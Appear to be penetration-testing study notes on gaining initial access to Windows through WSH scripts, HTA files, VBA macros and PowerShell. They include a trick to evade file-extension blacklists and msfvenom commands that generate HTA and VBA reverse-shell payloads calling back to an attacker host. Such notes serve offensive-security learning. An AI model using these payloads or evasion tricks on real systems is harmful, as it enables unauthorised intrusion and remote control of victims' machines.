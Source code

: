 ```yaml
---
title: Windows initial foothold notes
---
```


- [1. Windows Scripting Host (WSH)](#1-windows-scripting-host-wsh)
- [2. HTML Application (HTA)](#2-html-application-hta)
- [3. Visual Basic for Application (VBA)](#3-visual-basic-for-application-vba)
- [4. Powershell script](#4-powershell-script)

## 1. Windows Scripting Host (WSH)
WSH is language-independent technology to run scripts written in Active Scripting languages. It's old and available on every Windows machine by default. Users can install different scripting engines to support different scripting languages (e.g. PerlScript, RubyScript).

Engines to run JScript (`.js` file) and VBScript (`.vbs` file) are installed by default. Administrator can also use `.wsf` file (_Windows Scripting File_) in order to mix different scripting languages in one scripting file. Windows OS runs scripts with the same level of access and permission as a regular user.

> **TRICK**: VBScript file might be renamed to `example.txt` and executed using the following command: `wscript /e:VBScript <path-to-script>`. This trick can bypass file extension blacklists.

```powershell
# Console application
cscript <path-to-console-script>

# Window application
wscript <path-to-window-script>
```

## 2. HTML Application (HTA)
HTA is a Windows program whose source code consists of HTML, CSS and one or more scripting languages supported by WSH - JScript and VBScript. Actually it works like a Windows program with GUI written in HTML and logic written in scripting language. Because it's executed locally, it's often used as a GUI for administration tools. The usual HTA file extension is `.hta`.

HTAs are interpreted by mshta.exe (LOLBin) after double clicking. Under the hood it is rendered by Internet Explorer (officially: _Trident_ engine, called _MSHTML_ as well) browser engine even if IE is not installed in the OS (still works in Windows 11).

HTAs files often can be executed immediately after download. Because of that they are used to establish reverse shell by attackers. `msvenom` and `msfconsole` have a generators of HTA rev-shell files.

```bash
# Generate malicious HTA file
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<ip> LPORT=<port> -f hta-psh -o rev-shell.hta
```

## 3. Visual Basic for Application (VBA)
VBA is almost the same as Visual Basic but its main purpose is to automate tasks in Microsoft Office applications (Word, Excel, PowerPoint, Outlook etc.). It cannot work independently. Macros are written in VBA. They can be combined with HTA and WSH methods to bypass more detection softwares.

```bash
# Generate malicious VBA macro payload
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<ip> LPORT=<port> -f vba
```

## 4. Powershell script
PS execution policy is by default set to `Restriced`. It means that user can execute single commands but not to run any PS script (`.ps1` file).

```powershell
# Check current execution policy
Get-ExecutionPolicy

# Change current execution policy
Set-ExecutionPolicy -Scope CurrentUser RemoteSigned
```
